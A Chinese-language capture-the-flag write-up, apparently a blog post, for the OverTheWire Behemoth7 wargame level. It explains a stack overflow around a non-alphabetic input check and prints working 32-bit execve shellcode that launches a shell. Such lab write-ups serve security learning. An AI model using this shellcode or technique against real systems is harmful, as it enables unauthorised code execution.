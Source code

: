 ```yaml
---
title: Behemoth7
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题稍微和之前不太一样，在main开始时先push ebp, 又push edi, 然后and esp 0xfffffff0, sub esp 230h。但ida这里没搞清楚，字符数组是在esp+24h处，但ida显示的是ebp+210h，明显不对，估计是因为又push edi的原因。所以直接看反汇编有时确实容易出错，这种情况下还是要直接看汇编。

首先是把环境变量都清空了，所以只能把shellcode放在argv里了。另外，会检查前512个字符是否包含非字母，应该可以写出只有字母的shellcode，但我没有用那种方法。也就是把shellcode放在紧挨着ebp前面的缝隙处。检查发现，shellcode最长只能有12+8+4=24byte；顶多再加一个byte,也就是返回地址的最低位，而且如果这么做的话，前面的要用NOP来填充了

另一方面，由于shellcode金挨着返回地址，我们还必须保护他，也就是要先把栈往上推。这样一来，之前一直用的那个版本就太长了，于是这里我让他执行./sh，然后把/bin/sh链接到当前目录下

shellcode所在的地址还是通过ebp的地址算出，再次提醒下要保持参数个数及长度都相同

汇编代码如下

{% highlight nasm %}
BITS 32

xor eax, eax
sub esp, 0x28 ;protect our code
push eax
mov edx, esp
push 0x68732f2e ;./sh
mov ebx, esp
push eax
push ebx
mov ecx, esp
mov al, 11
int 0x80
{% endhighlight %}